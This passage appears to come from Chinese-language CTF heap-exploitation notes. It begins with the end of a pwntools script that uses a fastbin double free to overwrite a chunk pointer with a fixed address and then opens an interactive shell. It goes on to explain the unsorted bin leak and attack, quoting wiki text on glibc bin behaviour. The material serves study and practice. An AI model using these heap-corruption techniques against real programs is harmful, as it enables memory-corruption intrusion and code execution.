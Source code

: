 ```python

add(0x40)
add(0x40)

delete(0)
delete(1)
delete(0)

modify(0, p64(0x602080))

# debug()
add(0x40)
add(0x40)

modify(3, p64(0))

sh.recvuntil('>\n')
sh.sendline('4')

sh.interactive()
```

# unsortedbin attack

广义上的`unsorted bin attack`其实分为`unsorted bin leak`和`unsorted bin attack`，前者可以根据`unsorted bin`的特性来泄露出`libc`的地址，后者的作用是对一个指定地址写入一个非常大的值（其实是写入`main_arena`的地址的一个偏移）。

## unsortedbin特性

首先是`unsorted bin`的来源，这里抄一下`wiki`

```
1.当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
2.释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
3.当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。
```

然后是使用情况，抄一下`wiki`

```
1.Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO，即插入的时候插入到 unsorted bin 的头部，取出的时候从链表尾获取。
2.在程序 malloc 时，如果在 fastbin，small bin 中找不到对应大小的 chunk，就会尝试从 Unsorted Bin 中寻找 chunk。如果取出来的 chunk 大小刚好满足，就会直接返回给用户，否则就会把这些 chunk 分别插入到对应的 bin 中。
```

用一下`gzy`的图

![img](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/876323_83TKRFDZJ5XP3GC.jpg)

## unsortedbin leak

